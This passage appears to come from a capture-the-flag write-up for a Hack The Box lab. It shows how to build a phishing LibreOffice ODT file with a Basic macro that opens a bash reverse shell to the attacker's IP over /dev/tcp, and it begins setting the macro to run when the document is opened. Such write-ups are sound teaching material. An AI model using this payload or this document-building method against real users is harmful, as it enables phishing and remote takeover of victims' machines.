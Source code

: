```
10.10.11.225 - - [24/Oct/2023 01:38:16] code 404, message File not found
10.10.11.225 - - [24/Oct/2023 01:38:16] "GET /phish HTTP/1.1" 404 -

```

### Malicious ODT

#### Background

I’ve shown phishing with LibreOffice documents before. In [RE](/2020/02/01/htb-re.html#prepare-document), I made an `.ods` (equivalent of Excel for LibreOffice) file with a macro to run on opening, and it needed to avoid some Yara filters detecting Metasploit payloads. In [Rabbit](/2022/04/28/htb-rabbit.html#phishing), I created a `.odt` file for an OpenOffice target (OpenOffice and LibreOffice are very similar, and use the same file extensions).

#### Create Document

I’ll open LibreOffice Writer (like Word) and put some dummy text into the document:

![image-20231024211104767](/img/image-20231024211104767.png)

And save it as `report.odt`.

I’ll open the “Organize Macros > Basic” menu:

![image-20231024212106047](/img/image-20231024212106047.png)

Here, I’ll find my document, and under “Standard”, click, and select the “New” button:

![image-20231024212220990](/img/image-20231024212220990.png)

This pops a dialog asking for a name, and then opens the macro editor:

![image-20231024212258047](/img/image-20231024212258047.png)

I’ll add a simple reverse shell:

```

Sub Main

	shell("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'")

End Sub

```

![image-20231026065556394](/img/image-20231026065556394.png)

To get this to run automatically on opening, I’ll close the Macro editor and in the document window go to “Tools” > “Customize”. In the window that opens, I’ll go to the “Events” tab, click on “Open Document” and then “Macro…”:

![image-20231024212715560](/img/image-20231024212715560.png)
